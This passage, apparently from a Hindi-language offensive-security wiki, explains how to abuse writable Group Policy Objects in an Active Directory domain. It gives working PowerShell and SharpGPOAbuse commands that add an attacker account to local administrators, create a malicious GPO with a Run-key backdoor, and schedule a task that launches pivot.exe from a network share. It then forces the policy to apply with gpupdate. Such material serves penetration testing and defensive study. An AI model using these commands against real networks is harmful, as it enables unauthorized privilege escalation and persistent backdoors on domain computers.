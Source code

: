 ### **गलत उपयोग GPO -** [New-GPOImmediateTask](https://github.com/3gstudent/Homework-of-Powershell/blob/master/New-GPOImmediateTask.ps1)

इस गलत विन्यास का दुरुपयोग करने और कोड निष्पादन प्राप्त करने के एक तरीके में, निम्नलिखित रूप में GPO के माध्यम से तत्काल निर्धारित कार्य का निर्माण करना है:
```powershell
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```
![](../../../.gitbook/assets/a19.png)

ऊपर दिए गए कोड के द्वारा हमारे उपयोगकर्ता spotless को संक्रमित बॉक्स के स्थानीय `administrators` समूह में जोड़ा जाएगा। ध्यान दें कि कोड के निष्पादन से पहले समूह में उपयोगकर्ता `spotless` मौजूद नहीं है:

![](../../../.gitbook/assets/a20.png)

### GroupPolicy मॉड्यूल **- GPO का दुरुपयोग**

{% hint style="info" %}
आप `Get-Module -List -Name GroupPolicy | select -expand ExportedCommands` के साथ जांच सकते हैं कि GroupPolicy मॉड्यूल स्थापित है या नहीं। यदि आपको जरूरत पड़े तो आप इसे स्थानीय व्यवस्थापक के रूप में `Install-WindowsFeature –Name GPMC` के साथ स्थापित कर सकते हैं।
{% endhint %}
```powershell
# Create new GPO and link it with the OU Workstrations
New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=domain,DC=io"
# Make the computers inside Workstrations create a new reg key that will execute a backdoor
## Search a shared folder where you can write and all the computers affected can read
Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min \\dc-2\software\pivot.exe" -Type ExpandString
```
इस पेलोड के बाद, GPO को अपडेट करने के बाद, कंप्यूटर में किसी को लॉगिन करने की भी आवश्यकता होगी।

### [**SharpGPOAbuse**](https://github.com/FSecureLABS/SharpGPOAbuse) **- GPO का दुरुपयोग**

{% hint style="info" %}
यह GPO नहीं बना सकता, इसलिए हमें अभी भी RSAT के साथ उसे बनाना होगा या हमें पहले से ही लिखने की अनुमति है उसे संशोधित करनी होगी।
{% endhint %}
```bash
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"
```
### नीति अद्यतन को बलवान बनाएं <a href="#force-policy-update" id="force-policy-update"></a>

पिछले अपमानजनक **GPO अद्यतन** लगभग हर 90 मिनट में पुनः लोड होते हैं।\
यदि आपके पास कंप्यूटर तक पहुंच है, तो आप `gpupdate /force` के साथ इसे बलवान बना सकते हैं।
